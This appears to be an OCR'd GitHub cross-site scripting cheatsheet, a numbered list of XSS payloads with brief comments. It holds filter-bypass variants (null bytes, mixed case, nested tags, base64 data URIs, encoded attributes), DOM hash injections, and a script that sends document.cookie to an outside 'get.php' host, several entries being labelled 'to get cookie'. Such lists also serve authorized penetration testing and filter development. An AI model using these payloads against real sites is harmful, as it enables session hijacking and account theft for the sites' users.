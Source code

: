 5-`<div style="color:red" onclick=alert('xss')>`| Coloring is adding to see the div

6-`<div style="color:green" onmouseover=alert('xss') >`

7-`<script>console.log("test")</script>` **Testing if the word "alert" is allowed in the script**

8- `<img src="cc" onerror=eval(String'fromCharCode')>` |**alert is not allowed**

9-`</script><script>alert('XSS');</script>`|**escaping script tags to excute the payload**

10-`';alert('xss');//`| The apostrophe character is used to escape in PHP htmlentities**'**

11-`' onerror=alert('xss');>` | use this if the vulnerability in the image

12-`#<script>alert(1)</script>` | **exploiting the DOM xss with hash.substring**

13-`#javascript:alert(1)` | **exploiting the DOM xss with hash.substring**

14-`" onmouseover="alert(1)` |

15-`<script> var i = new Image(); i.src="http://URL/get.php?cookie="+escape(document.cookie)</script>`|**to get cookie**

16-`“><script >alert(document.cookie)</script >`|**to get cookie**

17-`“><ScRiPt>alert(document.cookie)</ScRiPt>`

18-`“%3e%3cscript%3ealert(document.cookie)%3c/script%3e`

19-`“><scr<script>ipt>alert(document.cookie)</scr</script>ipt>`

20-`%00“><script>alert(document.cookie)</script>`

21-`<object data=”data:text/html,<script>alert(1)</script>”>`

22-`<object data=”data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==”>`

23-`<a href=”data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==”>`

24-`Click here</a>`

25-`<img o[%00]nerror=alert(1) src=a>`| to bypass attribute filters

26-`<img onerror=”alert(1)”src=a>`| attribute delimiter

27-`<img onerror=’alert(1)’src=a>`| attribute delimiter

28-`<img onerror=`alert(1)`src=a>`| attribute delimiter

29-`<img onerror=a[%00]lert(1) src=a>`| attribute value

30-`<img onerror=a&#x6c;ert(1) src=a>`| attribute value

31- `<img src='nevermind' onerror="alert('XSS');" />` **| DOM**


---

## Cross-Site Scripting (XSS) Cheatsheet
